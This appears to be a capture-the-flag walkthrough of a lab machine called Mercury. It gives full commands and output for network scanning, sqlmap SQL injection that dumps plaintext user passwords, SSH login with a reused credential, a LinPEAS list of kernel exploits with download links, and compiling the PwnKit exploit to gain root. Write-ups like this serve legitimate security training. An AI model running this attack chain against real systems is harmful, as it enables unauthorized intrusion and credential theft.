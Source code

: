 I scan my network with:
````
sudo arp-scan -I eth1 -l
````
And the we run a nmap with the IP we get from our network:
  ````
sudo nmap -sT <ip>
````
the results:
````
PORT     STATE SERVICE
22/tcp   open  ssh
8080/tcp open  http-proxy

````
I also got this: http://IP/mercuryfacts/1/ by navigating through the website.
It looks like a query for facts to mercury. I ran sqlmap to check this:

````
sqlmap -u http://IP:8080/mercuryfacts/1 --dbs 
````
from that command I got the following result:
````
[INFO] fetching database names
available databases [2]:
[*] information_schema
[*] mercury

````

Then I checked for the tables inside mercury DB

````
sqlmap -u http://IP/mercuryfacts/1 -D mercury --tables  
````
````
Database: mercury
[2 tables]
+-------+
| facts |
| users |
+-------+
````
And by dumping the content of the table users I got:
````
sqlmap -u http://10.0.3.244:8080/mercuryfacts/1 -D mercury -T users --columns
[3 columns]
+----------+-------------+
| Column   | Type        |
+----------+-------------+
| id       | int         |
| password | varchar(50) |
| username | varchar(50) |
+----------+-------------+


````
````
sqlmap -u http://10.0.3.244:8080/mercuryfacts/1 -D mercury -T users --dump   
````
````
[4 entries]
+----+-------------------------------+-----------+
| id | password                      | username  |
+----+-------------------------------+-----------+
| 1  | johnny1987                    | john      |
| 2  | lovemykids111                 | laura     |
| 3  | lovemybeer111                 | sam       |
| 4  | mercuryisthesizeof0.056Earths | webmaster |
+----+-------------------------------+-----------+
````
Besides the users we also know that there is an ssh service open. I tried the users and passwords for ssh connection and I got into the machine with webmaster username.

From here I check the linux kernel version and vulnerabilities that might be vulnerable to; This with the help of LinPEAS:

````

Linux version 5.4.0-45-generic

[+] [CVE-2022-2586] nft_object UAF                                                                        

   Details: https://www.openwall.com/lists/oss-security/2022/08/29/5
   Exposure: probable
   Tags: [ ubuntu=(20.04) ]{kernel:5.12.13}
   Download URL: https://www.openwall.com/lists/oss-security/2022/08/29/5/1
   Comments: kernel.unprivileged_userns_clone=1 required (to obtain CAP_NET_ADMIN)

[+] [CVE-2021-4034] PwnKit

   Details: https://www.qualys.com/2022/01/25/cve-2021-4034/pwnkit.txt
   Exposure: probable
   Tags: [ ubuntu=10|11|12|13|14|15|16|17|18|19|20|21 ],debian=7|8|9|10|11,fedora,manjaro
   Download URL: https://codeload.github.com/berdav/CVE-2021-4034/zip/main

[+] [CVE-2021-3156] sudo Baron Samedit

   Details: https://www.qualys.com/2021/01/26/cve-2021-3156/baron-samedit-heap-based-overflow-sudo.txt
   Exposure: probable
   Tags: mint=19,[ ubuntu=18|20 ], debian=10
   Download URL: https://codeload.github.com/blasty/CVE-2021-3156/zip/main

[+] [CVE-2021-3156] sudo Baron Samedit 2

   Details: https://www.qualys.com/2021/01/26/cve-2021-3156/baron-samedit-heap-based-overflow-sudo.txt
   Exposure: probable
   Tags: centos=6|7|8,[ ubuntu=14|16|17|18|19|20 ], debian=9|10
   Download URL: https://codeload.github.com/worawit/CVE-2021-3156/zip/main

[+] [CVE-2021-22555] Netfilter heap out-of-bounds write

   Details: https://google.github.io/security-research/pocs/linux/cve-2021-22555/writeup.html
   Exposure: probable
   Tags: [ ubuntu=20.04 ]{kernel:5.8.0-*}
   Download URL: https://raw.githubusercontent.com/google/security-research/master/pocs/linux/cve-2021-22555/exploit.c
   ext-url: https://raw.githubusercontent.com/bcoles/kernel-exploits/master/CVE-2021-22555/exploit.c
   Comments: ip_tables kernel module must be loaded

[+] [CVE-2022-32250] nft_object UAF (NFT_MSG_NEWSET)

   Details: https://research.nccgroup.com/2022/09/01/settlers-of-netlink-exploiting-a-limited-uaf-in-nf_tables-cve-2022-32250/
https://blog.theori.io/research/CVE-2022-32250-linux-kernel-lpe-2022/
   Exposure: less probable
   Tags: ubuntu=(22.04){kernel:5.15.0-27-generic}
   Download URL: https://raw.githubusercontent.com/theori-io/CVE-2022-32250-exploit/main/exp.c
   Comments: kernel.unprivileged_userns_clone=1 required (to obtain CAP_NET_ADMIN)

[+] [CVE-2017-5618] setuid screen v4.5.0 LPE

   Details: https://seclists.org/oss-sec/2017/q1/184
   Exposure: less probable
   Download URL: https://www.exploit-db.com/download/https://www.exploit-db.com/exploits/41154
````

I decided to use Pwnkit, I cloned the repo https://github.com/ly4k/PwnKit and send the .c file with scp,
````
scp ./PwnKit.c webmaster@10.0.3.244:/home/webmaster
````
With the .c file on the machine, I proceded to compile the file.

````
 gcc -shared PwnKit.c -o Pwnkit -Wl,-e,entry -fPIC
````
From here I have a root access and just run a find to locate the root flag:
````
find / -name "*flag.txt" ````
